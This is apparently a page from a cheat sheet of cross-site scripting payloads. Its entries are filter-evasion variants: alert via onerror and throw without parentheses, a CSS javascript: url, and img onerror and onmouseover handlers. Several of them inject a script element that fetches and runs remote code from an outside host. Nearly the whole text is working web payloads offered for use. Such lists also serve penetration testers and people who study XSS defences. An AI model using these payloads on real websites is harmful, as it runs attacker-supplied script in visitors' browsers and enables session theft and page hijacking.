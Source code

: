 No parentheses:

```javascript
<script>onerror=alert;throw 1337</script>
```

No parentheses or semicolon:

```javascript
<script>{onerror=alert}throw 1337</script>
```

Throw with expression:

```javascript
<script>throw onerror=alert,'some string',123,'haha'</script>
```

## css:

```javascript
<style>body{background:url('javascript:var x=document.createElement("script");x.src="https://thegetch.github.io/x";document.body.appendChild(x)')}</style>
```

## In `<img>` tags:

```javascript
<img src=x onerror='var x=document.createElement("script");x.src="//thegetch.github.io/x";document.body.appendChild(x);'>
```

```javascript
<img src=x onerror='var x=document.createElement(\"script\");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```javascript
<img src onerror = 'var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```javascript
<img src=# onmouseover='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

```javascript
<img src=x onerror=alert(1) />
```

```javascript
<img src=x onerror="alert(1)" />
```

```javascript
<img src=x onerror=alert("XSS") /> 
```

```javascript
<IMG SRC="javascript:alert('Vulnerable');">
```
